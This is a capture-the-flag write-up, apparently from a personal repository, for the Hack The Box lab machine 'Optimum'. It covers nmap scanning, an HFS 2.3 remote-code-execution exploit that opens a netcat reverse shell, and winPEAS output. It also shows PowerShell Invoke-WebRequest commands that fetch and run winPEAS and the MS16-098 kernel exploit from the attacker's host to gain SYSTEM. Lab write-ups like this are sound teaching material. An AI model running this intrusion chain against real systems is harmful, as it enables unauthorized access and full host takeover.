


# Optimum 

 


## Summary

* Windows Server 2012 R2 with a file server running on port 80.
* RCE exists for the file server, HFS 2.3.
* Simple web server to host nc.exe and a python script is enough to get a reverse shell.
* Privilege escalation was difficult.  Found a kernel exploit for MS16-098 that worked.

## Tools needed

* Python with http.server module
* searchsploit
* nc
* An exploit suggester.  I tried winPEAS, but should have used Sherlock or Windows-Exploit-Suggester.

## Detection 

Start with nmap

```
#nmap -sV -O --script *vuln* -oA nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-10 21:46 CDT
Nmap scan report for 10.10.10.8
Host is up (0.044s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  BID:49303
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|_      https://seclists.org/fulldisclosure/2011/Aug/175
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|Vista|2008|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 (88%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.34 seconds
```

OS best guess is `Microsoft Windows 2012|Vista|2008|7`.  Open port is 80 and it's an HTTP File Server.  Let's start at the port.

```
curl -I 10.10.10.8:80
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3835
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.492714939173311; path=/; 
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1
```

curl confirms the server version as `HFS 2.3`.  Let's check the web interface.

 

Clicking around there are quite a few areas we could try to gain a foothold.  However, given this is old software, let's check searchsploit first.

```
searchsploit hfs 2.3
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                                                 | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                              | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                         | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                         | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                    | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Hard to pass up trying an RCE with Python, so let's try 39161.py.

## Exploit

```
searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/htb/optimum/39161.py
```
Checking the code, we need to get nc.exe ready for upload to the target server and the author expects it to be locally hosted, specifically http://&lt;local IP&gt;:80/nc.exe.

```
#find / | grep -i nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

#mkdir web
#cp /usr/share/windows-resources/binaries/nc.exe web/.
#cd web
#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
```

Let's test the makeshift web server first ...

```
#curl 10.10.14.5:80/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  11.3M      0 --:--:-- --:--:-- --:--:-- 11.3M 

-------------------------------------------------------------------------------

#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
10.10.14.5 - - [10/Oct/2020 23:08:40] "GET /nc.exe HTTP/1.1" 200 -
```

File was downloaded, so it's working.  After fixing the hard-coded local IP and listener port in 39161.py, we're ready to execute.

```
#python 39161.py 10.10.10.8 80

-------------------------------------------------------------------------------

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop> systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
```

For some reason the first execution of 39161.py didn't take.  On the second attempt is when I got the shell.


## Privilege Escalation

So I'm completely stuck on privilege escalation so I'll need a tool.  As I already have an HTTP server running, I thought I should try winPEAS.

```
#git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git
#cd privilege-escalation-awesome-scripts-suite/winPEAS/winPEASbat
#cp winPEAS.bat ../../../web/.
#cd ../../../web/.
# ls
nc.exe  winPEAS.bat
```

Now let's download winPEAS using `Invoke-WebRequest` and run it.

```
C:\Users\kostas\Desktop>cd %TEMP%
C:\Users\kostas\AppData\Local\Temp>powershell.exe -c "Invoke-WebRequest -Uri http://10.10.14.10:80/winPEAS.bat -OutFile winPEAS.bat"
     
C:\Users\kostas\AppData\Local\Temp>winPEAS.bat                                                                                                                                                
winPEAS.bat                                                                                                                                                                                   
                                                                                                                                                                                              
            ((,.,/((((((((((((((((((((/,  */                                                                                                                                                  
                                                                                                                                                                                              
 [+] SERVICE BINARY PERMISSIONS WITH WMIC and ICACLS                                                                                                                                          
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services                                                                                                        
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)                                                                                                 
                                                                                                                                                                                              
C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)                                                                                                                              
                                                                                                                                                                                              
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)                                                                                                                     
                                                                                                                                                                                              
C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe BUILTIN\Administrators:(F)                                                                                               
                                                                                                                                                                                              
C:\Program Files\VMware\VMware Tools\vmtoolsd.exe BUILTIN\Administrators:(F)                                                                                                                  
                                                                                                                                                                                              
C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\CommAmqpListener.exe BUILTIN\Administrators:(F)                                                                                       
                                                                                               
C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\ManagementAgentHost.exe BUILTIN\Administrators:(F)
                                                                                               
                                                                                               
 [+] CHECK IF YOU CAN MODIFY ANY SERVICE REGISTRY                                              
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
                                                                                               
 [+] UNQUOTED SERVICE PATHS                                                                    
   [i] When the path is not quoted (ex: C:\Program files\soft\new folder\exec.exe) Windows will try to execute first 'C:\Progam.exe', then 'C:\Program Files\soft\new.exe' and finally 'C:\Pro
gram Files\soft\new folder\exec.exe'. Try to create 'C:\Program Files\soft\new.exe'            
   [i] The permissions are also checked and filtered using icacls                              
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services         
NetTcpPortSharing                  
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)  
                                               
PerfHost 
 C:\Windows\SysWow64\perfhost.exe 
C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)

TrustedInstaller 
 C:\Windows\servicing\TrustedInstaller.exe 
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)

[*] DLL HIJACKING in PATHenv variable                                                                                                                                                [118/546]
   [i] Maybe you can take advantage of modifying/creating some binary in some of the following locations                                                                                      
   [i] PATH variable entries permissions - place binary or DLL to execute instead of legitimate 
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking
C:\Windows\system32 NT SERVICE\TrustedInstaller:(F)
 
C:\Windows NT SERVICE\TrustedInstaller:(F)
 
C:\Windows\System32\Wbem NT SERVICE\TrustedInstaller:(F)
 

[*] CREDENTIALS

 [+] WINDOWS VAULT
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#windows-vault

Currently stored credentials:

* NONE *


 [+] Unattended files

 [+] SAM and SYSTEM backups

 [+] McAffee SiteList.xml
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196


C:\Windows\Panther\setupinfo
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17415_none_01f46dab888fca48\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17415_none_0c4917fdbcf08c43\appcmd.exe

---
Scan complete.
 [+] GPP Password
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml

 [+] Cloud Credentials

 [+] AppCmd
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe

 [+] Files in registry that may contain credentials
   [i] Searching specific files that may contains credentials.
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP
Looking inside HKCU\Software\TightVNC\Server
Looking inside HKCU\Software\SimonTatham\PuTTY\Sessions
Looking inside HKCU\Software\OpenSSH\Agent\Keys 
C:\Windows\Panther\setupinfo
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17415_none_01f46dab888fca48\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml                                                                        [31/546]
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17415_none_0c4917fdbcf08c43\appcmd.exe

---
Scan complete.

 [+] DPAPI MASTER KEYS
   [i] Use the Mimikatz 'dpapi::masterkey' module with appropriate arguments (/rpc) to decrypt
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi


    Directory: C:\Users\kostas\AppData\Roaming\Microsoft\Protect


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d---s         18/3/2017   1:57             S-1-5-21-605891470-2991919448-8120
                                             5106-1001                         

 [+] DPAPI MASTER KEYS
   [i] Use the Mimikatz 'dpapi::cred' module with appropriate /masterkey to decrypt
   [i] You can also extract many DPAPI masterkeys from memory with the Mimikatz 'sekurlsa::dpapi' module
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi

Looking inside C:\Users\kostas\AppData\Roaming\Microsoft\Credentials\
Looking inside C:\Users\kostas\AppData\Local\Microsoft\Credentials\

Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP
Looking inside HKCU\Software\TightVNC\Server
Looking inside HKCU\Software\SimonTatham\PuTTY\Sessions
Looking inside HKCU\Software\OpenSSH\Agent\Keys 
C:\Windows\Panther\setupinfo
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17415_none_01f46dab888fca48\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17415_none_0c4917fdbcf08c43\appcmd.exe

---
Scan complete.
```

Unfortuately the above didn't get me anything useful (or I'm just bad at interpreting the results), but either way I'm stuck.

Resorting to Google, I searched for "Windows 2012 R2 privilege" and found quite a few references to MS16-098. I came across some kernel exploits here: https://github.com/SecWiki/windows-kernel-exploits/

```
#git clone https://github.com/SecWiki/windows-kernel-exploits.git
#cd windows-kernel-exploits/MS16-098
#cp bfill.exe ../../web/.
#ls
bfill.exe  nc.exe  winPEAS.bat
```

Download bfill.exe with `Invoke-WebRequest`.

```

C:\Users\kostas\Desktop>cd %TEMP%
C:\Users\kostas\AppData\Local\Temp>powershell.exe -c "Invoke-WebRequest -Uri http://10.10.14.10:80/bfill.exe -OutFile bfill.exe"
C:\Users\kostas\AppData\Local\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\AppData\Local\Temp

25/10/2020  03:40     <DIR>          .
25/10/2020  03:40     <DIR>          ..
25/10/2020  03:40            560.128 bfill.exe
18/03/2017  02:57     <DIR>          Low
               1 File(s)        560.128 bytes
               3 Dir(s)  31.886.508.032 bytes free

C:\Users\kostas\AppData\Local\Temp>bfill.exe
bfill.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\AppData\Local\Temp>whoami
whoami
nt authority\system
```

Success! 


